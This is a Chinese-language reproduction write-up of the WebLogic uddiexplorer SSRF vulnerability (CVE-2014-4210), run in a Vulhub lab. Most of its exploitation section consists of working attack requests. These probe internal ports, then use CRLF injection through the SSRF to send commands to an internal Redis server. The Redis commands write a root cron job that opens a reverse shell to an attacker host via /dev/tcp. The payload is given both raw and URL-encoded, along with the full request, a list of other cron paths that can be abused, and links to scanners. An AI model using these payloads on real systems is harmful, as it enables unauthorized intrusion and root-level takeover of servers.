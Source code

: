 # Weblogic uddiexplorer SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件。

## 漏洞影响

```
Oracle WebLogic Server 10.0.2.0
Oracle WebLogic Server 10.3.6.0
```

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

访问`http://your-ip:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用。

![image-20220302210736666](images/202203022107741.png)

## 漏洞复现

SSRF漏洞存在于`http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp`，我们在burpsuite下测试该漏洞。访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001 HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

可访问的端口将会得到错误，一般是返回status code（如下图），如果访问的非http协议，则会返回`did not have a valid SOAP content-type`。

![image-20220302211012943](images/202203022110046.png)

修改为一个不存在的端口，将会返回`could not connect over HTTP to server`。

![image-20220302211141064](images/202203022111161.png)

通过错误的不同，即可探测内网状态。

### 反弹shell

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

> 此处kali启动redis失败，转为CentOS vps进行复现。

首先，通过ssrf探测内网中的redis服务器（docker环境的网段一般是172.*），发现`172.18.0.2:6379`可以连通：

![image-20220302220543308](images/202203022205403.png)

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

```
test

set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/your-reverse-shell-ip/9999 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save

aaa
```

进行url编码：

```
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.20.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fyour-reverse-shell-ip%2F9999%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: your-vps-ip:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

成功反弹：

![image-20220302220843300](images/202203022208358.png)

最后补充一下，可进行利用的cron有如下几个地方：

- /etc/crontab 这个是肯定的
- /etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也要和/etc/crontab相同。漏洞利用这个目录，可以做到不覆盖任何其他文件的情况进行弹shell。
- /var/spool/cron/root是centos系统下root用户的cron文件
- /var/spool/cron/crontabs/root是debian系统下root用户的cron文件

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

